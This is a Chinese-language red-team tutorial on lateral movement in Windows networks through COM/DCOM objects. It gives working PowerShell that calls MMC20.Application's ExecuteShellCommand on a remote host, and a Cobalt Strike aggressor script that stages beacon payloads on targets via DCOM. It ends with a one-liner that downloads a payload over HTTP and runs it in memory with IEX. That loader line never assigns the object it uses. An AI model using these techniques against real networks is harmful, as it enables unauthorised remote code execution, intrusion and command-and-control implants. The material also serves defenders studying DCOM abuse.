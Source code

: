 ### 内网横向系列 —— 利用COM对象

#### 0x01 什么是COM对象

微软组件对象模型（Component Object Model，COM）是平台无关、分布式、面向对象的一种系统，可以用来创建可交互的二进制软件组件”。COM是微软OLE（复合文档）、ActiveX（互联网支持组件）以及其他组件的技术基础，COM允许对象跨进程和计算机边界进行交互。COM的核心是一组组件对象间交互的规范，定义了组件对象如何与其用户通过二进制接口标准进行交互，COM的接口是组件的类型纽带。COM还提供定位服务的实现，可以根据Windows系统注册表，从一个类标识（CLSID）来确定COM组件的位置（也可使用程序标识符（ProgID）是标识一个COM，但精度较低，因为不能保证它是全局唯一的），**可以用CLSID实例化每个对象，然后枚举每个COM对象公开的方法和属性**。一个COM组件可以实现多个COM对象，每个COM对象实现多个COM接口，DLL或者EXE作为COM组件的实现的容器。COM采用自己的IDL来描述组件的接口（interface），支持多接口，解决版本兼容问题。COM为所有组件定义了一个共同的父接口IUnknown。GUID 是一个 128 位整数（16 字节），COM将其用于计算机和网络的唯一标识符。



#### 0x02 枚举COM对象



`Get-ChildItem -Path HKCR:\CLSID -Name | Select -Skip 1`

根据CLSID获取COM对象的属性和方法

```
PS C:\Users\Administrator\Desktop> $handle = [activator]::CreateInstance([type]::GetTypeFromCLSID("{00000305-0000-0000-C000-000000000046}"))
PS C:\Users\Administrator\Desktop> $handle | Get-Member
```

![](/Users/cate4cafe/工作/文章/com对象横向移动/media/1.png)



#### 0x03 利用MMC20.Application横向移动

MMC应用程序类（MMC20.Application），这个COM对象允许使用脚本来处理MMC管理单元组件，它的[ExecuteShellCommand](https://docs.microsoft.com/zh-cn/previous-versions/windows/desktop/mmc/view-executeshellcommand?redirectedfrom=MSDN)属性可以执行远程命令。前提是当前上下文拥有远程计算机的权限（如域管）且远程计算机的防火墙过关闭。

```
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.145.11")).Document.ActiveView.ExecuteShellCommand("C:\\windows\\system32\\cmd.exe", $null,"/c calc.exe","7")
```

![](/Users/cate4cafe/工作/文章/com对象横向移动/media/2.png)



CNA利用脚本

```python
# Lateral Movement alias
# https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/

# register help for our alias
beacon_command_register("com-exec", "lateral movement with DCOM",
	"Synopsis: com-exec [target] [listener]\n\n" .
	"Run a payload on a target via DCOM MMC20.Application Object");

# here's our alias to collect our arguments
alias com-exec {
	if ($3 is $null) {
		# let the user choose a listener
		openPayloadHelper(lambda({
			com_exec_go($bid, $target, $1);
		}, $bid => $1, $target => $2));
	}
	else {
		# we have the needed arguments, pass them
		com_exec_go($1, $2, $3);
	}
}

# this is the implementation of the attack
sub com_exec_go {
	local('$command $script $oneliner');

	# check if our listener exists
	if (listener_info($3) is $null) {
		berror($1, "Listener $3 does not exist");
		return;
	}

	# state what we're doing.
	btask($1, "Tasked Beacon to jump to $2 (" . listener_describe($3, $2) . ") via DCOM");

	# generate a PowerShell one-liner to run our alias	
	$command = powershell($3, true, "x86");

	# remove "powershell.exe " from our command
	$command = strrep($command, "powershell.exe ", "");

	# build script that uses DCOM to invoke ExecuteShellCommand on MMC20.Application object
	$script  = '[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "';
	$script .= $2;
	$script .=  '")).Document.ActiveView.ExecuteShellCommand("';
	$script .= 'c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe';
	$script .= '", $null, "';
	$script .= $command;
	$script .= '", "7")';

	# run the script we built up
	bpowershell!($1, $script);
	
	# complete staging process (for bind_pipe listeners)
	bstage($1, $2, $3);
}
```

此外，也可以利用[ShellWindows](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)进行横向移动

#### 0x04 其他com对象利用

内存加载执行

```
[activator]::CreateInstance([type]::GetTypeFromCLSID("F5078F35-C551-11D3-89B9-0000F81FE221")); $o.Open("GET", "http://127.0.0.1/payload", $False); $o.Send(); IEX $o.responseText;
```

以及这篇[博客](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)提到的。